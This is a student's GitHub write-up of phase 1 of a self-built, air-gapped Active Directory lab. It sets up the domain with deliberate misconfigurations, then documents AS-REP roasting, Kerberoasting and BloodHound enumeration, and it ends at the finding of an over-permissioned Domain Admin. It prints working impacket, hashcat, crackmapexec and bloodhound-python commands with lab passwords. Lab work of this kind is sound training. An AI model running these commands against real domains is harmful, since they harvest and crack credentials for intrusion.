# Active Directory Attack Lab - Phase 1



> A simulated corporate Active Directory environment built to practice and document a full red team attack chain - from a phished low-privilege employee to complete domain compromise via Golden Ticket. 

> Phase 1 of 5 of a larger AI-assisted threat detection project I'm working on!

---

## Project Overview

This lab simulates a realistic small-company Windows Active Directory environment and executes a complete attack chain against it. The goal is to model and learn how attackers chain misconfigurations and credential weaknesses to escalate from a phished employee to full domain compromise and to document each stage with evidence and explanations.

The attack chain starts with `sahib.johar`, a low-privilege HR employee, and ends with a forged Kerberos Golden Ticket granting permanent administrative access to the entire domain.

---

## Lab Infrastructure

| Machine | OS | Role | IP |
|---|---|---|---|
| DC01 | Windows Server 2022 Standard Eval | Domain Controller | 192.168.100.10 |
| PHIX-WS01 | Windows 11 Enterprise Eval | Domain-joined workstation | 192.168.100.20 |
| Kali | Kali Linux | Attacker machine | 192.168.100.30 |

- **Virtual Machine Manager:** KVM / virt-manager on Fedora 44
- **Network:** Isolated `phix-lab` virtual network (192.168.100.0/24) - no internet access, fully air-gapped
- **Domain:** `phix.local` (NetBIOS: `PHIX`)

---

## Setting Up the Domain

### Promoting the Server to Domain Controller

Started with a Windows Server 2022 VM and promoted it to Domain Controller, which is the server that runs Active Directory. The DC is the brain of the domain. Every authentication request, group lookup, and Kerberos ticket goes through it.



A fully functional DC with `phix.local` as the domain:



### Creating the Isolated Network

Set up a private KVM network called `phix-lab` so all the VMs could communicate in an isolated environment without touching the host's (my) real network or the internet. Making sure all devices on the host's (my) network is secure.




### Static IP for the Domain Controller

Domain Controllers need static IPs so client machines can consistently locate them via DNS. DHCP-assigned addresses would break domain authentication every time the IP changed.



### Setting Up the Windows 11 Workstation

Set up a Windows 11 VM as a domain-joined workstation `PHIX-WS01`. Pointed its DNS to the DC and joined it to `phix.local`.






### Kali Attacker VM

Connected Kali to the `phix-lab` network as the attacker machine. In the real world this represents an attacker who's gained network access - either physically on-site or through a VPN/remote foothold. 

Confirmed network connectivity by pinging the DC from Kali



---

## AD Structure and Misconfigurations

Built out a realistic fake-company AD structure with Organizational Units and Users via PowerShell on the DC.



**Users created:**

| OU | User | Notes |
|---|---|---|
| IT | `yash.patel` | Domain Admin: Over-permissioned |
| HR | `sahib.johar` | Kerberos pre-auth disabled|
| Finance | `faiyaz.saraf` | Standard user |
| Management | `henil.patel` | Standard user |
| Service Accounts | `svc_backup` | SPN set, weak password (Kerberoastable) |
| Service Accounts | `svc_sql` | SPN set, weak password (Kerberoastable) |

**Intentional misconfigurations applied:**

| Misconfiguration | Account | Risk |
|---|---|---|
| Kerberos pre-auth disabled | `sahib.johar` | AS-REP Roastable or phish |
| Weak service account password | `svc_backup`, `svc_sql` | Kerberoasted hashes are crackable |
| SPNs on service accounts | `svc_backup`, `svc_sql` | Makes them Kerberoastable |
| Excessive privileges | `yash.patel` | IT user with unnecessary Domain Admin membership |

PowerShell commands used to apply the misconfigs:



---

## Attack Chain Story

> "I phished Sahib Johar, an HR employee with no special privileges. From her account I ran Kerberoasting and captured hashes for the service accounts. I cracked the hash for svc_backup offline. Then I ran BloodHound to map the domain and discovered yash.patel was in Domain Admins. I found a path to compromise Yash's account and achieved full Domain Admin access."

**Attack chain:**


1. Failed AS-REP Roasting attempt, infomation is assumed to be got by phishing `sahib.johar` → low privilege foothold
2. Kerberoasted `svc_backup` → cracked to `Password123`
3. BloodHound enumeration → identified `yash.patel` as Domain Admin
4. Social engineered `yash.patel` → obtained his credentials
5. DCSync as `yash.patel` → dumped every hash in the domain
6. Golden Ticket using `krbtgt` hash → permanent domain access

---

## Step 1: Failed AS-REP Roasting

**MITRE ATT&CK:** T1558.004 - Steal or Forge Kerberos Tickets: AS-REP Roasting

When Kerberos pre-authentication is disabled on an account, anyone can request an AS-REP for that user from the DC without authenticating first. The response is encrypted with the user's password hash, which can be cracked offline.

**Requesting the hash:**

```bash
impacket-GetNPUsers phix.local/sahib.johar -dc-ip 192.168.100.10 -no-pass -request
```



**Attempted crack with rockyou + best66 rules:**

```bash
hashcat -m 18200 /home/sp/asrep_hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best66.rule
```

The hash was captured successfully, but the password resisted cracking against rockyou + best66 rules. This is documented as a **partial finding** - the misconfiguration (pre-auth disabled) still exists and is a vulnerability regardless of password strength. A future attacker with more wordlists, more rules, or more compute time may still succeed.



---


## Step 2: Kerberoasting

**MITRE ATT&CK:** T1558.003 - Steal or Forge Kerberos Tickets: Kerberoasting

Kerberoasting works because any authenticated domain user can request a Kerberos service ticket (TGS) for any account that has a Service Principal Name (SPN). The ticket is encrypted with that account's password hash, which can be taken offline and cracked. Since `sahib.johar`'s credentials were obtained via phishing, she's authenticated and can request these tickets.

**Saving the Kerberoast hashes to file:**

```bash
impacket-GetUserSPNs phix.local/sahib.johar:Spring2024! -dc-ip 192.168.100.10 -request -outputfile /home/sp/kerberoast_hashes.txt
```


**Cracking the hashes with hashcat and rockyou:**

```bash
hashcat -m 13100 /home/sp/kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

Both `svc_backup` and `svc_sql` cracked instantly - same password: `Password123`.



---

## Step 3 - BloodHound Domain Enumeration

**MITRE ATT&CK:** T1087.002 - Account Discovery: Domain Account

BloodHound is a graph-based AD enumeration tool. It collects every object (users, groups, computers, GPOs) and the relationships between them (group memberships, ACLs, sessions) and uses graph analysis to identify attack paths.

**First, used crackmapexec to fingerprint the DC:**

```bash
crackmapexec smb 192.168.100.0/24
```



**Then ran bloodhound-python from sahib.johar's account to map the domain:**

```bash
bloodhound-python -u sahib.johar -p 'Spring2024!' -d phix.local -dc dc01.phix.local -ns 192.168.100.10 -c ACL,Group,LocalAdmin,Session,Trusts,ObjectProps --zip
```



**Started Neo4j and BloodHound CE:**

**Logged into BloodHound CE and uploaded the collection data:**



**Fully mapped domain in BloodHound:**


### Key Finding from BloodHound

`yash.patel` is in Domain Admins - an IT user who shouldn't have that level of access. He's over-permissioned.

